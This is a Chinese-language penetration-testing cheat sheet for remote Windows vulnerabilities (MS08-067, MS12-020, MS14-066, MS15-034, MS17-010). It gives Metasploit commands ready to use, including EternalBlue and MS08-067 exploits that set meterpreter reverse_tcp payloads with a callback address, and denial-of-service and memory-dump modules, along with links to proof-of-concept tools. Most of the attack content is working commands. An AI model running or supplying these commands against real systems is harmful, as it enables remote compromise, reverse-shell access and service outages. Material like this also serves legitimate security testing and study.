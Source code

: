 关于 windows 更多提权内容,见笔记 [提权笔记](./提权笔记.md#win) windows 提权部分

---

## 远程
**MS08-067 & CVE-2008-4250**
- MSF 模块
    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set payload windows/x64/meterpreter/reverse_tcp
    set target 0
    ```

**MS12-020 & CVE-2012-0002**
- MSF 模块
    ```bash
    use auxiliary/scanner/rdp/ms12_020_check
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    ```

**MS14-066 & CVE-2014-6321**
- POC | Payload | exp
    - [anexia-it/winshock-test](https://github.com/anexia-it/winshock-test)

**MS15-034 & CVE-2015-1635**
- POC | Payload | exp
    - [MS15-034 Checker](https://pastebin.com/ypURDPc4)

- 文章
    - [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html)

- MSF 模块
    ```bash
    use auxiliary/scanner/http/ms15_034_http_sys_memory_dump    # 读取服务器内存数据
    use auxiliary/dos/http/ms15_034_ulonglongadd    # 进行 dos 攻击
    ```

**MS17-010**
- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/smb/smb_ms17_010
    set rhosts <ip>
    run

    # 使用 payload 连上去
    use exploit/windows/smb/ms17_010_eternalblue
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost <ip>      # 设置回弹地址
    set rhosts <ip>
    run
